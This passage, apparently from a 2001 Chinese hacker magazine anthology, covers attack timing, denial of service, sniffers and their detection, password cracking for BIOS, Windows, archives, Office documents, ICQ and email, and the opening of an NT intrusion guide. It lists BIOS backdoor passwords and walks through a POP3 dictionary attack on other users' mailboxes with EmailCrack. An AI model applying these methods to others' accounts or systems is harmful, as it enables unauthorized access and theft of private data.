从过去统计的数字来看，一般出现攻击都是在冬天。好像原因在于冬天因为冷，没有地方去造成的。

就每天所发生的攻击来看，大部分的攻击时间是在夜间。因为攻击者认为在白天攻击的话，容易被管理员发现自己的行踪。所以攻击者就利用夜间人们都休息的时间，进行攻击。不在白天攻击的原因有：

- 1. 客观的原因是，在白天大部分的攻击者要上学或者工作。以至他们没有太多的时间来做这样的事情。换句话说，他们不能整天坐在计算机面前。
- 2. 现在的网络是越来越慢，相对来说，在夜间的网络速度会比白天快得多。所以，这样就给攻击者创造了进行攻击的好机会。但是，这样的说法是相对于同一个时区来说的，如：攻击国内的计算机主机，大概的时间是在凌晨 3—6 点，而这个时间人们大部分都在休息。另一个例子，如果在国内想攻击美国的一台计算机，那么就要选择与美国的时间相反的那个时候。因为在中国的夜间，在美国正是网络高峰期，人们大部分都在网络上浏览、收发电子邮件等。所以这样会给攻击带来很多的不方便。

## 拒绝服务

### 攻击的概念

拒绝服务攻击是指一个用户占据大量的共享资源，使系统没有其他的资源来给其他的用户可用的攻击。拒绝服务降低了资源的可用性，这里资源指的是处理器的时间、磁盘的空间、打打印机和调制解调器，甚至涉及到系统管理员的时间。攻击的结果是停止和失去服务。

UNIX 系统中，只有很少的保护措施，来防止和抵抗很少或者偶然的攻击。大多数的 UNIX 版本都允许管理员设置用户最多打开的进程数。但是，这样的情况，和其他的系统来比较的话，防御手段都是很原始的。一般有两种类型的拒绝服务攻击。

第一种是攻击试图去破坏或毁坏资源，使别人也无法使用这个资源。如：删除文件、格式化硬盘、切断电源等，这样的行为都是实现拒绝攻击。在前面我们已经举了简单的例子。其实，几乎所有的攻击都可以限制关键用户和文件并保护他们不受其他的用户所访问。如果采用的系统安全策略好的话，也可以防止拒绝服务攻击。

第二种是过载一些系统服务或消耗一些系统的资源，但这样的行为也许是攻击者故意造成的，也可能是某个用户无意造成的错误所导致的。通过这样的方式来阻止其他的用户使用这些服务。用一个比较简单的例子来说，一个用户用完了一个磁盘的分区，使得别的用户就无法再生成新的文件来储存。还有像一个典型的情况是程序出错，在递归的条件中，本来是要用 x=0 结果写成了 x==0。

在过载攻击中，一个共享的资源或服务器由于需要处理大量的请求，以至无法满足其他用户来到的请求。如：一个用户打开了大量的进程，那么其他的用户就不能运行自己的进程。一个用户用完了所有的空间，那么别的用户就不能生成新的文件。那么这样的情况下，可以有效地采用系统管理，只分配给用户属于他自己的那部分资源。另外，系统检测过载自动重新启动也是一个不错的手段。

## 原理与反嗅探技术详解

小编寄语：电话窃听器这种东东想必大家都有所了解吧，可是你知不知道，在网络上也有类似的装置呢，这种装置就是“嗅探器”，其实 DfArTisT 也仅是对“嗅探器”有所耳闻，本来不敢出来献丑，但现在有皮球兄作靠山，自然不一样了。这不，为大家带来了皮球兄的一篇关于嗅探和反嗅探技术的文章。

文/渗透实验室：大皮球

### 嗅探器的基础知识

- **1. 什么是嗅探器？**

嗅探器的英文名称是 Sniff，可以理解为安装在计算机上的窃听设备，它可以用来窃听计算机在网络上所产生的众多的信息。简单一点解释：一部电话的窃听装置，可以用来窃听双方通话的内容。而计算机网络嗅探器则可以窃听计算机程序在网络上发送和接收到的数据。

可是，计算机直接传送的数据，事实上是大量的二进制数据。因此，一个网络窃听程序必须也使用特定的网络协议来分解嗅探到的数据，嗅探器也就必须能够识别出哪个协议对应于这个数据片段，只有这样才能进行正确的解码。

计算机的嗅探器比起电话窃听器，有他独特的优势：很多的计算机网络采用的是“共享媒体”。也就是说，你不必中断他的通讯，并且配置特别的线路，再安装嗅探器，你几乎可以在任何连接着的网络上直接窃听到你同一掩码范围内的计算机网络数据。我们称这种窃听方式为“基于混杂模式的嗅探”(promiscuous mode)。尽管如此，这种“共享”的技术发展的很快，慢慢转向“交换”技术，这种技术长期内会继续使用下去，它可以实现有目的选择的收发数据。

## 2. 嗅探器是如何工作的

### 1 如何窃听网络上的信息

刚才说了，以太网的数据传输是基于“共享”原理的：所有的同一本地网范围内的计算机共同接收到相同的数据包。这意味着计算机直接的通讯都是透明可见的。

正是因为这样的原因，以太网卡都构造了硬件的“过滤器”，这个过滤器将忽略掉一切和自己无关的网络信息。事实上是忽略掉了与自身 MAC 地址不符合的信息。

嗅探程序正是利用了这个特点，它主动地关闭了这个过滤器，也就是前面提到的设置网卡“混杂模式”。因此，嗅探程序就能够接收到整个以太网内的网络数据信息了。

### 2 什么是以太网的 MAC 地址

MAC: Media Access Control.

由于大量的计算机在以太网内“共享”数据流，所以必须有一个统一的办法用来区分传递给不同计算机的数据流。这种问题不会发生在拨号用户身上，因为计算机会假定一切数据都由你发送给 modem，然后通过电话线传送出去。可是，当你发送数据到以太网上的时候，你必须弄清楚，哪台计算机是你发送数据的对象。的确，现在有大量的双向通讯程序出现了，看上去，他们好像只会在两台机器内交换信息，可是你要明白，以太网的信息是共享的，其他用户，其实一样接收到了你发送的数据，只不过是被过滤器给忽略掉了。

MAC 地址是由一组 6 个 16 进制数组成的，它存在于每一块以太网卡中。下文将告诉你如何查看自己计算机的 MAC 地址。

如果你对网络结构不太熟悉，建议参考一下 OSI 7-Layer Model，这将有助于你理解后面的东西。以太网所使用的协议主要是 TCP/IP，并且 TCP/IP 也用于其他的网络模型，比如拨号用户，他们并不是处于一个以太网环境中。举例一下，很多的小团体计算机用户都为实现文件和打印共享，安装了“NetBEUI”，因为它不是基于 TCP/IP 协议的，所以来自于网络的黑客一样无法得知他们的设备情况。

基于 Raw 协议，传输和接收都在以太网里起着支配作用。你不能直接发送一个 Raw 数据给以太网，你必须先做一些事情，让以太网能够理解你的意思。这有点类似于邮寄信件的方法，你不可能直接把一封信投递出去，你必须先装信封，写地址，贴邮票，网络上的传输也是这样的。

下面给出一个简单的图示，有助于你理解数据传送的原理：如图 1。

UserA IP 地址：10.0.0.23
UserB IP 地址：192.168.100.54

现在知道 UserA 要与 UserB 进行计算机通讯，UserA 需要为 10.0.0.23 到 192.168.100.54 的通讯建立一个 IP 包，这个 IP 包在网络上传输，它必须能够穿透路由器。因此，UserA 必须首先提交这个包给路由器。由每个路由器考查目的地 IP 地址然后决定传送路径。UserA 所知道的只是本地与路由的连接和 UserB 的 IP 地址。UserA 并不清楚网络的结构情况和路由走向。

UserA 必须告诉路由预备发送的数据包的情况，以太网数据传输结构大概是这样的：图 2

理解一下这个结构，UserA 的计算机建立了一个包，假设它由 100 个字节的长度（我们假设一下，20 个字节是 IP 信息，20 个字节是 TCP 信息，还有 60 个字节为传送的数据）。现在把这个包发给以太网，放 14 个字节在目的地 MAC 地址之前，源 MAC 地址，还要置一个 0x0800 的标记，它指示出了 TCP/IP 栈后的数据结构。同时，也附加了 4 个字节用于做 CRC 校验（CRC 校验用来检查传输数据的正确性）。

现在发送数据到网络。所有在网内的计算机通过适配器都能够发现这个数据包，其中也包括路由适配器，嗅探器和其他一些机器。通常，适配器都具有一块芯片用来做结构比较的，检查结构中的目的地 MAC 地址和自己的 MAC 地址，如果不相同，则适配器会丢弃这个结构。这个操作会由硬件来完成，所以，对于计算机内的程序来说，整个过程是毫无察觉的。

当路由器的以太网适配器发现这个结构后，它会读取网络信息，并且去掉前 14 个字节，跟踪 4 个字节。查找 0x0800 标记，然后对这个结构进行处理（它将根据网络状况推测出下一个最快路由节点，从而最快传送数据到预定的目标地址）。

设想，只有路由机器能够检查这个结构，并且所有其他的机器都忽略这个结构，则嗅探器无论如何也无法检测到这个结构的。

### 3 MAC 地址的格式是什么？

以太网卡的 MAC 地址是一组 48 比特的数字，这 48 比特分为两个部分组成，前面的 24 比特用于表示以太网卡的寄主，后面的 24 比特是一组序列号，是由寄主进行支配的。这样可以担保没有任何两块网卡的 MAC 地址是相同的（当然可以通过特殊的方法实现）。如果出现相同的地址，将发生问题，这一点是非常重要的。这 24 比特被称之为 OUI（Organizationally Unique Identifier）。

可是，OUI 的真实长度只有 22 比特，还有两个比特用于其他：一个比特用来校验是否是广播或者多播地址，另一个比特用来分配本地执行地址（一些网络允许管理员针对具体情况再分配 MAC 地址）。

举个例子，你的 MAC 地址在网络中表示为 03 00 00 00 00 01。第一个字节所包含的值二进制表示方法为 00000011。可以看到，最后两个比特都被置为真值。它指定了一个多播模式，向所有的计算机进行广播，使用了“NetBEUI”协议（一般地，在 Windows 计算机的网络中，文件共享传输等是不使用 TCP/IP 协议的）。

### 4 我如何得到自己计算机的 MAC 地址？

**Win9x：**
Win9x 自带的这个程序将告诉你答案：“winipcfg.exe”

**WinNT：**
在命令行的状态下运行这个命令：“ipconfig /all”
它会显示出你的 MAC 网卡地址，下面是一个例子：

```
Windows 2000 IP Configuration

Host Name ............ : bigball
Primary DNS Suffix ....... :
Node Type ............ : Hybrid
IP Routing Enabled....... : No
WINS Proxy Enabled........ : No

Ethernet adapter 本地连接：

Connection - specific DNS Suffix . :
Description . ....... : Legend/D - Link DFE - 530TX PCI Fast Ethernet Adapter Rev B
Physical Address. . . . : 00 - 50 - BA - 25 - 5D - E8
DHCP Enabled........ : No
IP Address.......... : 192.168.10.254
Subnet Mask ......... : 255.255.128.0
Default Gateway ....... : 192.168.10.3

Ethernet adapter SC12001 :

Description ......... : DEC DC21140 PCI Fast Ethernet
```

**Linux：**
运行“ifconfig”。结果如下：

```
eth0 Link encap : Ethernet HWaddr 08 : 00 : 17 : 0A : 36 : 3E
inet addr : 192.0.2.161 Bcast : 192.0.2.255 Mask : 255.255.255.0
UP BROADCAST RUNNING MULTICAST MTU : 1500 Metric : 1
RX packets : 1137249 errors : 0 dropped : 0 overruns : 0
TX packets : 994976 errors : 0 dropped : 0 overruns : 0
Interrupt : 5 Base address : 0x300
```

**Solaris**

### 5 我如何才能知道有哪些计算机和我的 MAC 地址直接关联？

对于 WinNT 和 Unix 机器，可以直接使用“arp -a”查看。

### 6 我能够改变我的 MAC 地址吗？

可以。简单地说一下：

- 第一种方法，你要做地址欺骗，因为 MAC 地址是数据包结构的一部分，因此，当你向以太网发送一个数据包的时候，你可以覆盖原始的 MAC 信息。
- 第二种方法，很多网卡允许在一定的时间内修改内部的 MAC 地址。
- 第三种方法，你可以通过重新烧录 EEPROM 来实现 MAC 地址的修改。但是这种方法要求你必须有特定的硬件设备和适用的芯片才能修改，而且这种方法将永远地修改你的 MAC 地址。

## 反嗅探技术

### 1. 我如何才能检测网内是否存在有嗅探程序?

理论上，嗅探程序是不可能被检测出来的，因为嗅探程序是一种被动的接收程序，属于被动触发的，它只会收集数据包，而不发送出任何数据。尽管如此，嗅探程序有时候还是能够被检测出来的。

一个嗅探程序，不会发送任何数据，但是当它安装在一台正常的局域网内的计算机上的时候会产生一些数据流。举个例子，它能发出一个请求，使 DNS 根据 IP 地址进行反向序列查找。下面一种简单的检测方法：

### ping 方法

很多的嗅探器程序，如果你发送一个请求给某台有嗅探程序的机器，它将作出应答。

**说明：**

- 1 怀疑 IP 地址为 10.0.0.1 的机器装有嗅探程序，它的 MAC 地址确定为 00-40-05-A4-79-32。
- 2 确保机器是在这个局域网中间。
- 3 现在修改 MAC 地址为 00-40-05-A4-79-33。
- 4 现在用 ping 命令 ping 这个 IP 地址。
- 5 没有任何人能够看到发送的数据包，因为每台计算机的 MAC 地址无法与这个数据包中的目的地 MAC 不符，所以，这个包应该会被丢弃。
- 6 如果你看到了应答，说明这个 MAC 包没有被丢弃，也就是说，很有可能有嗅探器存在。

现在，这种方法已经得到了广泛的推崇和宣扬，新一代的黑客们也学会了在他们的代码中加入虚拟的 MAC 地址过滤器。很多的计算机操作系统（比如 Windows）都支持 MAC 过滤器，很多过滤器只检查 MAC 的第一个字节，这样一来，MAC 地址 FF-00-00-00-00-00 和 FF-FF-FF-FF-FF-FF 就没有区别了。广播地址消息会被所有的计算机所接收。这种技术通常会用在交换模型的以太网中。当交换机发现一个未知的 MAC 地址的时候，它会执行类似“flood”的操作，把这个包发送给每个节点。

### 2. 本机嗅探程序的检测

本机嗅探的程序检测方法比较简单，只要检查一下网卡是否处于混杂模式就可以了。在 Linux 下，这个比较容易实现，而在 Windows 平台上，并没有现成的函数可供我们实现这个功能，我们可以自己编写一段代码。

程序比较简单，所以不做详细说明了，如果你还有问题，请访问我的主页 http://bigball.xici.net。

## 密码破解

在日常的计算机应用中，我们随时随地都离不开密码——开机要使用 CMOS 密码，进 Windows 98 要使用用户密码，编辑 Word 文档要设置文档密码……所有这些都为用户的数据安全提供了必要的安全保障！不过随着密码应用范围的增加，遗忘密码的情况也屡见不鲜！在忘记密码之后又该怎么办呢？如何破解这些密码，尽可能减少损失就成为我们所关注的一个话题。为方便读者，现将一些常用计算机密码的解密方法向大家作一简要介绍。

### 一、开机密码

由于各人的爱好不同，计算机的设置也不一样，而开机密码通常按设置下列两种情况：一种是 SETUP 密码，这种情况下，系统可以直接启动，而仅仅是在进入 BIOS 设置时要求输入密码；另一种则是 SYSTEM 密码，此时，无论你是直接启动计算机还是进行 BIOS 设置，都要求您输入密码。这两种情况，我们可以通过不同的方法进行破解。

#### 1 SETUP 密码

这种情况下，您的计算机能正常引导，只是不能进入 BIOS 设置，我们在遗忘密码之后该怎么办呢？先试试下面的万能密码：

| | | |
| :--- | :--- | :--- |
| Syxz | AWARD SW | AWARD |
| AWARD-SW | 589589 | j322 |
| j262 | HLT | SER |
| SKY FOX | BIOSTAR | ALFAROME |
| lkwpeter | j256 | AWARD SW |
| LKWPETER | aLLy | 589721 |
| awkward | AMI | CONCAT |

你也可以在 DOS 状态下启动 DEBUG，然后输入如下命令即可手工清除密码（图 1）：

如果您不熟悉 DEBUG，没关系，用一个专门破解 CMOS 密码的工具软件即可。我们在配套光盘中给大家提供了几个，有 Windows 和 DOS 版的，你可以选择自己喜欢的，操作都非常简单。下面我就向大家介绍一个 Windows 下的小工具。

BiosPwdS 1.2——一个既简单又好用的 CMOS 密码破解工具。首先将压缩包解开，双击 BiosPwdS 执行文件，接着只要点击“获取密码”就一切 OK 了。怎么样，容易吧？BiosPwdS 不仅能获取 CMOS 密码，还能读取 BIOS 版本，BIOS 日期以及安全选项等。（图 2）

也有 For DOS 的破解工具——CMOSPWD，它可以显示出 Acer、AMI、AWARD、COMPAQ、DELL、IBM、PACKARD BELL、PHOENIX、ZENITH AMI 等等多种版本 BIOS 里的密码（图 3）。

#### 2 SYSTEM 密码

这种情况下你如果忘记密码，就根本不能启动计算机，我们也就无法通过软件来解决密码遗忘的问题了。还是有办法的，不过要您打开机箱，给 CMOS 放电，清除 CMOS 中的所有内容，密码当然就消失了，然后开机重新进行设置，记得这次要记住。当然，此法对上一种情况也能用的，只要您不嫌麻烦。呵呵，简直是废话。

### 二、Windows 密码

#### 1 Windows 启动密码

如果遗忘了 Windows 98 的启动密码，虽然你可以照常使用计算机，但你的个性化设置可就丢了。哈哈，想不想找回它？说废话了。您可删除 Windows 安装目录下的 *.PWL 密码文件（图 4）及 Profiles 子目录下的所有个人信息文件，然后重新启动 Windows 98，系统就会弹出一个不包含任何用户名的密码设置框，我们无需输入任何内容，直接单击“确定”按钮，Windows 98 密码即被删除。

还有一法，只要将注册表 HKEY_LOCAL_MACHINE\Network\Logon 分支下的 UserProfiles 修改为“0”（图 5），然后重新启动 Windows 98 即可。不过，在修改注册表以前，最好先将其备份，以防万一。

#### 2 屏幕保护密码

利用系统的屏幕保护功能可以防止其他人偷用自己的计算机，从而起到保护数据安全的作用。不过在不配合其他限制功能的情况下，系统的屏幕保护密码是非常脆弱的。在不知道密码的情况下，只要 Reset 一下，重新启动计算机，然后在桌面空白处单击鼠标右键，从弹出菜单中执行“属性”命令，打开“显示属性”设置框，单击“屏幕保护”选项卡，取消“密码保护”复选框选项即可（图 6）。

如果您只是忘记屏保程序的密码，那可不一定要取消或重设，运行一些破解的小程序，马上一目了然。

### 3 电源管理密码

Windows 98 的电源管理功能也可以设置密码，设置此功能后，系统从节能状态返回时就会要求输入密码，从而在一定程度上实现保护系统的目的。不过，由于电源管理功能的密码与 Windows 98 的启动密码完全一样，因此我们只要按照前面的方法破解了 Windows 98 的启动密码，其电源管理密码也就不攻自破了。（图 7）

从前面的介绍中可以看出，Windows 98 的密码保护功能并不完善，无论是开机密码还是屏幕保护、电源管理密码都非常脆弱，我们必须辅之以其他控制措施才能达到防止他人入侵的目的。

## 三、压缩文件密码

### 1 WinZip

当用户遗忘 Zip 压缩包的密码之后，可以用一个专门破解 Zip 压缩包密码的解密软件 UZPC (Ultra Zip Password Cracker)，利用它帮我们找回丢失的密码。UZPC 的界面如图 8 所示，我们只需执行“Task”任务菜单的“New”新建命令，并从弹出的“打开”对话框中选择需要破解密码的 Zip 文件，UZPC 就会打开一个“Preferences”参数对话框（图 9）。

用户应从“Archive Files”文档列表框中选择对 Zip 压缩包中哪几个文件进行解密（WinZip 具有为同一个 Zip 压缩包中的不同文件设置不同密码的功能，不过绝大多数 Zip 压缩包都没有使用这一功能，它们通常为所有的文件都设置了相同的密码，因而常见的 Zip 密码破解软件都只能处理此类相同密码的 Zip 文档，它们往往对同时包含多个密码的 Zip 压缩包无效。UZPC 则有所不同，它可分别对 Zip 压缩包中不同文件的密码单独进行解密，从而更好地满足了广大用户的要求。“Archive Files”文档列表框就是用于选择同一个 Zip 压缩包中包含不同密码的文件的）。接下来，我们应选择适当的解密方式（主要有“Brute Force”穷举方式、“Dictionary-based”字典方式、“Template”后门方式和“Plaintext”模式匹配方式等 4 种，我们一般采用“Brute Force”穷举方式）。设置完毕之后单击“Next”下一步按钮，系统就会弹出一个“Brute Force Attack Parameter”穷举攻击参数对话框（图 10），要求用户对破解密码的参数（如是否包括大小写字母，是否包括数字、空格、符号或包括所有内容，密码的长度等）进行设置。最后单击“Go”开始按钮，系统就采用穷尽法对所有可能的密码组合进行测试，直至找出最后的结果，使用非常方便（图 11）。

另外需要说明的，若密码的位数较长，UZPC 的测试过程可能会花费较长的时间。为方便用户的使用，UZPC 特意提供了临时中断运行和从中断处继续进行测试的功能，我们只需在测试过程中利用“Save”保存按钮将当前的破解状态记录下来，然后就可以放心大胆地中断正在进行的测试而不必担心数据丢失了。此后，我们只需在 UZPC 中单击“Open”打开按钮，打开上次所作记录，UZPC 即会从中断处继续进行查找，从而节约了用户的时间。（图 12）

另外，还有一个很方便的 Zip 文件密码破解工具——Zip Key。我们可以到 http://www.lostpassword.com 下载一个 Wzipkeyd (Password recovery for WinZip)。它同样能帮助你恢复加密的 Zip 文件，支持 WinZip、PKZip 所有版本和其他的 ZIP 压缩软件所压缩的 Zip 压缩文件。使用上也相当简单，几个步骤即可完成密码恢复。只要执行 WinZip Key，再将 Zip 压缩文件拖到 WinZip Key 的视窗上即可将密码恢复。也有自定最小与最大密码长度、数字、字母、符号组合成字符串搜索密码的功能。( 图 13 )

### 2 ARJ

当 ARJ 压缩包的密码遗忘之后，我们可用一个专业的 ARJ 压缩包密码破解软件 AAPR (Advanced ARJ Password Recovery)，利用它找出 ARJ 压缩包的密码。AAPR 的界面如图 14 所示，我们只需从“ARJ Password - encrypted File”加密 ARJ 文档对话框中选择需要破解的 ARJ 压缩包，并在“Brute - Force Range Options”穷举范围选项对话框中选择密码的范围 (同样是设置是否包括大小写字母，是否包括数字、空格、符号或包括所有字符等内容)。最后单击“Start”开始按钮，系统就采用穷举法对所有可能的密码组合进行测试，找到密码之后再将其显示出来，使用非常方便!

### 3 RAR

RAR 也是一个非常流行的压缩软件，用户在遗忘 RAR 压缩包的密码之后可到 http://www.ssl.stu.neva.ru/ 下载一个 CRARK 软件来对其进行破解。这是一个命令行实用程序，它主要通过命令行来实现对 RAR 压缩包的密码进行破解。其命令格式为“CRARK 命令行参数 RAR 压缩包文件名”。不过，事实上我们一般只需直接使用“CRARK RAR 压缩包文件名”命令，利用缺省参数即可达到对 RAR 压缩包的密码进行破解的目的。

附: CRARK 有关命令行参数的含义:

- -l 指定最小密码长度;
- -g 指定最大密码长度;
- -s 使用用户自己的设置;
- -d 设置主要词典的文件名;
- -u 设置用户词典的文件名;
- -p 设置密码进度文件名。

## 四、文字处理软件密码

### 1 WPS

#### 1.1 WPS for DOS
老版本的 WPS 有一个通用密码 Ctrl - QIUBOJUN，我们只需采用此密码即可打开所有加密文档，然后再将文档中的内容采用块拷贝方式拷贝到其他文档中即可解决问题 (采用通用密码打开文档时所作的修改不能存盘)。

#### 1.2 WPS 2000
大家都知道, WPS 2000 采用了两种不同级别的文档加密方式, 即“普通型加密”和“绝密型加密”。它在说明书中谈到, 当用户遗忘文档密码之后, 若文档采用的是“普通型加密”方式, 则可向金山公司的技术人员求救, 由他们帮你找出遗忘的密码; 若文档采用的是“绝密型加密”方式, 密码遗忘之后根本无法解密, 不过事实却并非如此。我们无论是遗忘了“普通型”密码还是“绝密型”密码, 都可以到 http://cyg.yeah.net/ 下载一个名为 EWPR (Edward Wps Password Recovery) 的软件对遗忘的密码进行破解。这是一个国人自己编辑的密码破解软件, 它提供了“后门方式”、“穷举方式”、“字典方式”和“模式匹配方式”等 4 种解密方式 (对一般用户来说, 最有使用价值的还是“穷举方式”), 可同时对采用“普通型加密”和“绝密型加密”的文档进行解密 (操作方式完全一样)。

具体来说, 我们在使用 EWPR 对 WPS 2000 文档的密码进行破解时, 首先应在“Encrypt WPS 2000 file”对话框中指定所需的 WPS 2000 文档, 并在“Type of Attack”列表框中选择适当的密码破解方式 (一般应选择“brute - force”穷举方式)。接下来, 应根据具体情况在“Brute - Force Range Options”列表框中选择可能包含的密码范围, 并在“Start From”对话框中指定开始进行查找的字符 (主要用于从上次中断处继续进行破解)。设置完这些选项之后, 我们只需单击“RUN”按钮, EWPR 就会采用穷尽法对 WPS 2000 文档的密码进行破解, 使用非常方便 (在运行过程中, 我们可以通过“Pause”和“Resume”按钮暂时中断运行以及从中断处继续运行)。

### 2 Office

WPS 2000 的密码保护功能并不安全, 那么微软的 Office 又怎样呢? 其实微软的安全性亦不能信赖 (Windows 98、IE 等软件的安全性问题就是典型教材)。破解 Office 系列文档的密码的软件多如牛毛, 本人最常用的是 AOPR (全称为 Advanced Office 97 Password Recovery，下载网址为 http://www.elcomsoft.com/）。该软件可同时对微软 Office 系列中的 Word、Excel 及 Access 等软件所生成的密码进行破解，这就免去了用户逐一下载、使用各个单独密码破解软件的苦恼。另外，AOPR 可对 Word 的 *.dot 模板文件的密码进行搜索，这是其他类似软件所不具备的。必须说明的是，AOPR 是针对 Office 97 开发的（推出 AOPR 时，Office 2000 还未问世），不过 Office 2000 文档的格式与 Office 97 文档的格式基本上没有什么区别，因此我们同样可使用 AOPR 对 Office 2000 文档的密码进行破解。启动 AOPR 之后（图 15），我们只需从“Encrypted Office 97 Document”对话框中选择遗忘密码的 Office 文档，并在“Brute - Force Range Options”对话框中选择密码的范围，然后再在“Type of Attack”列表框中选择适当的密码破解方式（当然与前面一样选择“Brute - Force”穷举方式），最后单击“Start”按钮，系统就会采用穷尽法对所有可能的密码组合进行测试，找到密码后再将其显示出来。

### 3 Lotus Word Pro

国内使用莲花公司（IBM 子公司）的 Lotus Word Pro 的用户可能并不太多，不过该软件的功能与微软的 Word 相比毫不逊色（在某些方面还要更先进一些），在国外的应用范围非常广泛（国内不少用户经常会收到采用 Lotus Word Pro 格式的邮件），国内的多数中外合资企业也是使用 Lotus Word Pro 进行日常的文字处理，因此这里一并将 Lotus Word Pro 密码破解的方法向大家作一个介绍。当用户遗忘 Lotus Word Pro 密码之后，我们可以到 http://www.lostpassword.com 下载一个 Wprokeyd（Password recovery for Lotus Word Pro）对其进行破解。Wprokeyd 是一个专门用于破解 Lotus Word Pro 文档密码的应用程序，我们在启动该程序（图 16）之后，首先应单击“Settings”设置按钮, 打开“Brute - Force Settings”对话框, 对 Wprokeyd 的破解状态进行设置 (主要是在“Password Character Set”列表框中选择密码的范围)。设置完毕之后, 我们只需将遗忘密码的 Lotus Word Pro 文档 *.lwp 文件拖拽到 Wprokeyd 窗口中, Wprokeyd 即会根据用户指定的范围, 采用穷尽法对所有可能的密码一一进行测试, 直到找到密码为止。

## 五、ICQ 密码

ICQ 是目前最流行的网络寻呼软件, 许多人在上网时都离不开这惹人喜爱的“小东东”。在使用 ICQ 的过程中, 我们必须输入自己的个人密码, 用户若将密码遗忘了就意味着以前所有的传呼号码及谈话记录全部丢失, 这是绝对不能令人接受的! 别着急, ICQ 密码破解软件 ICQ Password Revealer 可以解决这一难题 ( http://www.encrsoft.com/ )。ICQ Password Revealer 是一个 DOS 下的命令行实用软件，用户只需在 ICQ 安装文件夹的 NEWDB 子文件夹下执行该文件，然后看屏幕提示（图 17），系统即会找回“久违”的 ICQ 密码, 使用非常方便。

## 六、邮件信箱密码

现在你去 ISP 处开户上网, 他们一般都会给你一个 E-mail 信箱, 地址一般是你的帐号加上 @xxx.net / @xxx.com, 密码和你的上网密码一样。也就是说, 只要你能敲开邮箱的密码就一切 OK 了。这样的话运行那些密码破解软件, 如 EmailCrack, 配合字典文件慢慢等着, 一般破解几十个小时, 就可以有所收获。

EmailCrack 必须在连线状态下使用, 适用于取得有邮箱的用户之密码。前提是你必须有一个目标主机的帐号。它是一个基于 POP3 协议的自动登录器, 它可以利用 POP3 协议的功能, 对可能的用户密码进行登录试验, 从而获得用户的密码。它的操作方法很简单, 我们来试试吧! 对了, 要运行 EmailCrack, 你还必须有以下几样东西: mfc42.dll, msvcrt40.dll。它是 VC5.0 的支持库, 看看你的 Win95\System 目录下有没有, 如果没有, 请找一份 VC 的光盘, 直接拷贝到 Win95\System 目录下就行了。

首先拨号上网, 连接到 Internet 后, 运行 EmailCrack, 出现主界面, 如图 18 所示。

- 1. 在“Server address”服务器地址输入框中输入要连接的主机地址, 一般是输入 POP3 服务器地址, IP 地址和域名地址都可以, 但为了加快速度, 建议填 IP 地址, 如果不知道 IP 地址的话, 可以用 PING 命令 PING 一下, 就可以获得主机的 IP 地址。
- 2. 在“User list file”用户名列表文件输入框中直接输入用户列表文件所在的盘符、路径和文件名, 或者用鼠标单击“user list file”按钮, 在“打开”对话框中直接双击要选择的文件。
- 3. 在“Password list file”口令列表文件输入框中直接输入口令列表文件所在的盘符、路径和文件名, 或者用鼠标单击“password list file”按钮, 在“打开”对话框中直接双击要选择的文件。这里请注意: 用户列表文件的格式是普通的文本格式, 要求一行一个用户, 不能用主机上拉下来的 passwd 文件直接使用, 必须将 passwd 文件中的其他信息除去后使用。
- 4. “Try User name”用户名尝试复选项可以让你决定程序是否使用用户的帐号作为密码登录。选定此项的话, 程序在测试中会自动用用户的帐号作为密码进行试验。如果不想试验用户名的话, 可以关闭此选项, 在试验过程中减少一次登录试验, 节省时间。
- 5. 在“Thread Number”线程数目文本输入框中, 你可以自己输入程序同时打开的线程数目。一般对于拨号上网用户, 建议设定在 20 - 30 处, 但也有使用 60 个线程的先例, 使用者可以自行决定。

一切设置好以后, 用鼠标单击“Begin”开始按钮, 程序会自动使用密码列表中的密码测试每一个帐号, 如果成功, 程序将会把用户名显示到结果框中, 其中“Search”为已试的个数, “Get”为取到密码的个数, 结果会自动保存在文件 Result.txt 中。

EmailCrack 实际上只是一个按照输入参数进行机械试验的密码破解软件。不过, 这个方法对于以用户名或简单数字、字母作为密码的用户有效。

## 七、采用“***”显示的密码

大家都知道, Foxmail 具有记忆用户邮箱密码的功能, 它可将用户邮箱的密码记忆下来, 然后直接收取邮件, 从而免去了用户手工输入密码的繁琐步骤。这就存在一个问题, 那就是用户长时间不接触密码之后很容易将邮箱密码遗忘, 而 Foxmail 中记录的密码是采用“*”显示的, 我们无法直接进行查看 (类似情况非常普遍), 这该如何解决呢? 别着急,“侠客软件密码查看器”可破解此类密码!“侠客软件密码查看器”是一个专门用于破解应用程序对话框中采用“*”显示密码的工具软件, 它可查出这些密码的原始字符并显示到用户的面前。

有了它，“*”再也不是一道无法逾越的壕沟了！“侠客软件密码查看器”的界面如（图 19）所示，我们要使用它破解某个密码，只需先打开其他应用程序的密码设置对话框（即显示“*”的窗口），然后用鼠标将“侠客软件密码查看器”中的“侠客软件”图标拖到这些应用程序的“*”密码上，“侠客软件密码查看器”就会将这些“*”密码破解出来，并将其原始字符显示到“密码”框中，从而满足用户的需要。“侠客软件密码查看器”的下载网址为：http://xksoft.yeah.net/。

有了上面介绍的方法和工具，你再也不会因为忘记密码而发愁了，反过来，你可能又会对自己的数据是否安全而操心了。其实大可不必紧张，上述这些密码破解软件所采用的破解方法主要还是穷举法，当密码较长时，运算量非常大，而目前计算机的运算速度还不能满足穷举较长密码的要求，因此上只要将密码设置得足够长，他人“窥视”我们秘密的机会并不多，密码最好至少在 8 位以上，且应是数字、字母和符号的组合。还有，为防止“侠客软件密码查看器”之类的专门破解采用“*”显示密码的软件，您最好不要使用软件的自动记忆密码功能，而直接在需要时使用手工输入密码。不过，一定要记清了。有了这两招，别人就不能轻易突破你的“防线”。

## 系统破解篇章

### 一、Windows NT 破解之道

如果要防范从远程对你的 Windows NT 的破解，最好的办法还是研究一下破解的基本方法。只有做到“知己知彼”，才能更好地防范破解。

#### 1. 通过 NetBIOS 为破解做好准备

所有的破解都涉及到以 root 或 admin 权限登录到某一计算机或网络。破解的第一步往往是对目标计算机的端口扫描（portscan）——建立在目标计算机开放端口上的攻击是相当有效的。NT 机器的端口信息的显示和 UNIX 的不同。因此，一般能区分出目标计算机所运行的是哪个操作系统。攻击 NT 为基础的网络时，NetBIOS 是首选的进攻点。

使用端口扫描软件，比如 Sam，看看目标计算机的端口 139 是否打开。139 端口是“NetBIOS session”端口，用来进行文件和打印共享的，是 NT 潜在的危险。注意：运行

# 黑客防线精华本 2001

SAMBA 的 Linux 和 UNIX 系统的 139 端口也是打开的，提供类似的文件共享。找到了这样的目标计算机后，接下来是使用“NBTSTAT”命令。

NBTSTAT 命令是用来询问有关 NetBIOS 的信息的，也能清除 NetBIOS 缓冲区内的内容和将 LMHOSTS 文件预先装入其中。通过运行这一命令能得到许多有用信息。

图 1


**nbtstat 命令格式：**
